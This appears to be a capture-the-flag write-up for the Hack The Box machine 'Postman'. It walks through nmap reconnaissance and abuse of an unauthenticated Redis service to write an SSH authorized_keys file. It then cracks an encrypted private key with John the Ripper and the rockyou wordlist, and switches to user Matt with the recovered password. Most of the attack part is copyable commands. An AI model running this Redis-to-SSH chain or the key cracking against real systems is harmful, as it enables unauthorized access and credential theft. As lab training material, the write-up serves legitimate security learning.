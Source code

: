 ![postman](https://user-images.githubusercontent.com/66635295/177882324-7b24b663-8911-4c1c-81c6-85fbc14f3ea8.png)

**RECON**
---
**Unfinished Website**
![recon](https://user-images.githubusercontent.com/66635295/177882332-fd817d49-3650-4a0b-b8cf-9bd12907a41d.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.160</pre>
-allports -version -Aggressive

Port 6379 Redis and Port 1000 Webpage
![nmap](https://user-images.githubusercontent.com/66635295/177882433-ba2d38f8-69fc-49e7-99ff-10ab7c868bd8.png)

**Webpage check**

Wepbpage shows an error, link does not work 
![10000](https://user-images.githubusercontent.com/66635295/177882646-5ebf6232-adf3-4e15-8cdd-b284ba8791f7.png)

Navigating to the proper page reveals Webmin login 
![webmin](https://user-images.githubusercontent.com/66635295/177882796-f0ff7900-9296-4471-b394-01b121af3ef9.png)

**Redis**
<pre> sudo apt-get install redis-tools </pre>
![redis install](https://user-images.githubusercontent.com/66635295/177883042-2adb0cbf-6e2c-44bc-a428-e99c52c57325.png)

Redis Host
<pre>redis-cli -h 10.10.10.160</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178047298-847ee0b2-b196-4674-ab2e-499e5b6a23fc.png)

Directory Check
<pre>CONFIG GET dir</pre>
<pre> CONFIG SET dir /var/lib/redis/.ssh</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178054227-24f483cd-851e-4e7d-9feb-120da1f1ff95.png)

**ENUMERATION**
---
**SSH Key**
<pre>ssh-keygen</pre>
![sshgen](https://user-images.githubusercontent.com/66635295/178054662-4469fc0a-1040-438b-9c44-6c62b8568dfc.png)

Copy key to .txt file
<pre> (echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > key.txt  </pre>            
![keytxt](https://user-images.githubusercontent.com/66635295/178055503-d0f774e4-6c69-409a-99cf-c0eac96f8106.png)

Send key to host
<pre>cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key</pre>
![rkey](https://user-images.githubusercontent.com/66635295/178055971-545373bc-d97d-4ea1-bc7b-07574185d1e4.png)

Check key
<pre>get ssh_key</pre>
![check key](https://user-images.githubusercontent.com/66635295/178056511-f5151520-69fe-4dce-b9e5-8571d4c55139.png)

Set database
<pre>CONFIG SET dir /var/lib/redis/.ssh </pre>
<pre>CONFIG set dbfilename authorized_keys</pre>
<pre>save</pre>
<pre>exit</pre>
![set db](https://user-images.githubusercontent.com/66635295/178056953-a2d34e4d-f7b1-40db-b2ff-c58c8c4db9f3.png)


SSH into the host
<pre> ssh - id_rsa redis@10.10.10.160 </pre>

**Checking  Directorys**
authorized_keys directory is here 
![directory](https://user-images.githubusercontent.com/66635295/178059417-c9d01199-9069-4e64-9c48-840fba1f2d65.png)

Home directory 
<pre>ls -l</pre>
<pre>cd Matt</pre>
<pre>ls -l</pre>
User Matt has read permison for user flag

![matt](https://user-images.githubusercontent.com/66635295/178060409-6bc981cb-aca1-4f61-a78d-4dda178c30a0.png)

Opt Directory
<pre> cat id_rsa.bak </pre>
Reveals Private RSA KEY 


**PRIVILEGE ESCALATION**
---
**John the Ripper**
Copy paste the key and transfer it to .john
<pre> /usr/share/john/ssh2john.py postman_id_rsa_enc > postman_id_rsa.john </pre>
![sshtojohn](https://user-images.githubusercontent.com/66635295/178073942-d24e2b6a-b6c2-4652-8406-c8b7cb4242b2.png)

Cracked Password 
<pre> john postman_id_rsa.johm --wordlist=/usr/share/wordlists/rockyou.txt </pre>
Jonhn and rockyou.txt reveals password to be computer2008

![cracked](https://user-images.githubusercontent.com/66635295/178074216-551f939e-0907-4646-9070-fcedf0739f41.png)

**SSH Matt**
<pre>ssh Matt@10.10.10.160</pre>
Matt is denied permission

![fail matt](https://user-images.githubusercontent.com/66635295/178074458-e94015eb-af59-4635-88ca-d72305f099ae.png)

Checking SSH 
<pre>cd /etc/ssh/</pre>
<pre>ls</pre>
![sshconfig](https://user-images.githubusercontent.com/66635295/178074642-1a9db243-8f0e-4b36-b167-20d7103f491f.png)

reading sshd_config Shows Matt is a denied login 
![denny](https://user-images.githubusercontent.com/66635295/178074725-c7d3d884-8855-4f91-aab4-b122591dbe00.png)

Postmatt
<pre> su Matt </pre>
<pre> Password: computer2008 </pre>
![postmatt](https://user-images.githubusercontent.com/66635295/178075034-35d1fd9d-d29c-4def-846f-df32e4c3d510.png)

Flag is now accessible 
![user flag](https://user-images.githubusercontent.com/66635295/178075070-f098c396-939f-4315-8073-d0e6d0a53312.png)

